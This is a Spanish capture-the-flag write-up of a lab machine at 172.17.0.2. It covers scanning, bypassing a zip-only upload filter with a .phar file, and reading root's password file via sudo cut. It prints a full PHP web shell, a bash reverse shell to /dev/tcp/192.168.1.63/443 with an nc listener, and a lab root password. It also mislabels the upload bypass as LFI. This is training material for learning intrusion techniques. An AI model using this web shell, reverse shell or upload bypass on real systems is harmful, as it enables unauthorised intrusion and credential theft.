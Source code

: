 Fecha: 13/08/2024

Comienzo haciendo nmap, veo solo un apache no vulnerable en el 80.

```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

Hago fuzzing y encuentro varias páginas: 

```
feroxbuster -u http://172.17.0.2 -x php -x html -x txt -x js -x py -w /usr/share/wordlists/directory-list-2.3-medium.txt -o fuzzing --threads 300 
```

![](Imágenes/Pasted%20image%2020240813180751.png)
En http://172.17.0.2/machine.php encuentro que puedo subir archivos. Por tanto, intentaré un #LFI (Local File Inclusion). Pruebo con un txt y veo que solo me deja subir .zips. Interceptaré la petición con burpsuite para engañarle y subir algún archivo .php. Por lo que he visto en otros writeups, esto se llama `Arbitrary File Upload`


```
# Creo un php con el que podré ejecutar comandos remotas: 
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

![](Imágenes/Pasted%20image%2020240813182943.png)

En un principio esta es la petición. Voy a hacer que la máquina se piense que es un zip. Para ello, veo que hay distintas terminaciones de los archivos php: **PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

Al parecer, phar es un conjunto de phps comprimidos, por lo que cuela y se sube. Ahora, podré ver ese archivo en http://172.17.0.2/uploads/script.phar y escribir los comandos que quiera:

![](Imágenes/Pasted%20image%2020240813184507.png)

![](Imágenes/Pasted%20image%2020240813184615.png)


Creo una shell que captaré desde mi máquina: 

```
# En mi máquina (192.168.1.63):

nc -lnvp 443

# En la shell de php: 

bash -c "bash -i >&/dev/tcp/192.168.1.63/443 0>&1"

```

Y ya estoy dentro:

![](Imágenes/Pasted%20image%2020240813185112.png)

Tanto con cut como grep puedo leer archivos como si fuera superusuario. 

![](Imágenes/Pasted%20image%2020240813185352.png)

Voy mirando directorios, y encuentro que en /opt/ hay un archivo: 

![](Imágenes/Pasted%20image%2020240813185538.png)

Uso https://gtfobins.github.io/gtfobins/cut/#sudo para leer el contenido: 

```
LFILE=/opt/nota.txt
sudo cut -d "" -f1 "$LFILE"

# Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.

LFILE=/root/clave.txt
sudo cut -d "" -f1 "$LFILE"

# dockerlabsmolamogollon123

```

![](Imágenes/Pasted%20image%2020240813185747.png)
